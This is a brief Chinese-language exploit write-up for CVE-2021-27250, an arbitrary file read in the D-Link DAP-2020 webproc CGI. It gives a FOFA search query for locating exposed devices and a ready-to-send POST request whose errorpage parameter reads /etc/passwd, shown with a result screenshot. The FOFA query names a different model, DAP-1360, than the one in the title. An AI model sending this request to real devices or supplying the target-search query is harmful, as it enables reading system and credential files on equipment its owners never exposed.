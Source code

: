# D-Link DAP-2020 webproc 任意文件读取漏洞 CVE-2021-27250

## 漏洞描述

近日D-Link发布公告[1]称旗下产品DAP-2020存在任意文件读取漏洞，CVE编号为CVE-2021-27250，目前已在硬件版本：A1，固件版本：1.01 上测试了PoC，由于漏洞影响核心组件，因此其他版本也可能受到此漏洞的影响

## 漏洞影响

```
D-LINK DAP-2020
```

## FOFA

```
body="DAP-1360" && body="6.05"
```

## 漏洞复现

登录页面

![image-20220715110127290](./images/202207151101366.png)

验证POC

```
POST /cgi-bin/webproc

getpage=html%2Findex.html&errorpage=/etc/passwd&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=123&%3Aaction=login&%3Asessionid=3c1f7123
```

![image-20220715110059377](./images/202207151100465.png)
